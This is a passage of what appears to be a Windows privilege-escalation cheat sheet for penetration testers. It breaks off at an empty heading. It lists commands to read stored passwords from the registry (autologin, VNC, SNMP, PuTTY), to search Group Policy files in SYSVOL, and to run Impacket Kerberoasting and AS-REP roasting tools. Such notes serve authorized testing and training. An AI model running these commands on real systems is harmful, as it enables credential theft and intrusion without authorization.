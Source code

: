 ***Paste Output***

```
# Look for hotfixes

wmic qfe get Caption,Description,HotFixID,InstalledOn

# Search for exploits
https://github.com/SecWiki/windows-kernel-exploits
site:exploit-db.com windows XX XX
```

### Cleartext passwords

```
# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# Windows Server GPP files
\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
Look for XML files such as Drives.xml, DataSources.xml, Groups.xml, Printers.xml, ScheduledTasks.xml...

#TGT Services/Kerberoasting
Impacket tools 
./GetNPUsers.py DOMAIN/USER:PASSWORD -dc-ip 10.10.10.100 -request
./GetUserSPNs.py DOMAIN/USER:PASSWORD -dc-ip 10.10.10.100 -request

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Reconfigure service parameters

- Unquoted service paths

Check book for instructions

- Weak service permissions

Check book for instructions

### Inside service
